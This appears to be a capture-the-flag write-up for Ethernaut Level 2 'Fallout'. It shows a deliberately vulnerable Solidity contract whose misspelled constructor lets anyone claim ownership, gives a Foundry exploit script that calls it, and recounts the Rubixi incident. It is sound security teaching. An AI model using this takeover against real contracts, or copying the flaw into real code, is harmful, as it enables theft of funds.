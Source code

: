 # Level 2 - Fallout ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/2" %}

### Level Setup

{% hint style="info" %}
Claim ownership of the contract below to complete this level.

&#x20; Things that might help

* Solidity Remix IDE
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Fallout.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
{% endcode %}

### Exploit

The contract uses an old method of defining the constructor by (attempting) to set it as the same name as the contract. In this instance, they made a mistake and there's a typo on the "constructor" which means it's different from the contract name, and therefore wasn't run on contract creation and can be run by anyone.

1. Call the function either using an interface or a `.call` with the function signature.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% @github-files/github-code-block url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level2.s.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IFallout {
    function Fal1out() external payable;
}

// ================================================================
// │                      LEVEL 2 - FALLOUT                       │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IFallout targetContract = IFallout(targetContractAddress);

        vm.startBroadcast();
        targetContract.Fal1out{value: 0}();
        vm.stopBroadcast();
    }
}

// contract Exploit is Script, GetInstanceAddress {
//     function run() public {
//         address targetContractAddress = getInstanceAddress();

//         // Function signature
//         bytes memory payload = abi.encodeWithSignature("Fal1out()");

//         vm.startBroadcast();
//         (bool success, ) = targetContractAddress.call{value: 0}(payload);
//         require(success, "Transaction failed");
//         vm.stopBroadcast();
//     }
// }
```
{% endcode %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
{% endhint %}

### Notes

* This exploit occurred because before Solidity `v0.5.0` it was not mandatory to name the constructor `constructor`. This was updated with a [breaking change in the `v0.5.0` release](https://docs.soliditylang.org/en/latest/050-breaking-changes.html#constructors).
* Even though this contract uses `v0.6.0` this mistake still happened.
* Exploited contract: [https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be](https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be)
